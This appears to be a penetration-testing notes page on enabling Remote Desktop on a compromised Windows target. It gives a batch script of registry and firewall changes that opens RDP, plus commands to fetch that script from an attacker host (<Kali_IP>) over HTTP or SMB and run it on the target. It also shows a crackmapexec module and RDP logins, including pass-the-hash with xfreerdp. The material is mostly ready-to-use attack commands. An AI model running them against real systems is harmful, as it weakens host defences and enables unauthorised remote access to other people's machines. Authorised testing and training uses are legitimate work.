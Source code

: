 # Enable Remote Desktop (RDP) on the target via an elevated shell

You will need an elevated shell to enable RDP

Save the following commands on a .bat file - ex.: `enablerdp.bat`

```
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```


# HTTP

Start hosting the file on a HTTP server
```
cd /usr/share/windows-resources/binaries/
sudo python -m http.server 80
```

On the target, copy the file on PowerShell and execute it.
```
cd C:\Temp\
Invoke-WebRequest -Uri 'http://<Kali_IP>/enablerdp.bat' -OutFile C:\Temp\enablerdp.bat
cmd
enablerdp.bat
```


## SMB

Start hosting the file on a SMB share.
```
cd /usr/share/windows-resources/binaries/
impacket-smbserver share $(pwd) -smb2support
```


On the target copy the file and execute it.
```
xcopy \\<Kali_IP>\share\enablerdp.bat C:\Temp\
C:\Temp\enablerdp.bat
```


OR


```
crackmapexec smb <Target_IP> -u '<username>' -p '<password>' -M rdp -o ACTION=enable
```
- I am not sure if this really works



Now, try to access it
```
rdesktop <Target_IP> -d '<DOMAIN>' -u '<User>' -p '<Pwd>'
```

OR

```
xfreerdp /v:<Target_IP> /d:<DOMAIN> /u:<User> /p:<Pwd>


xfreerdp /v:<Target_IP> /d:<DOMAIN> /u:<User> /pth:<HASH>
```

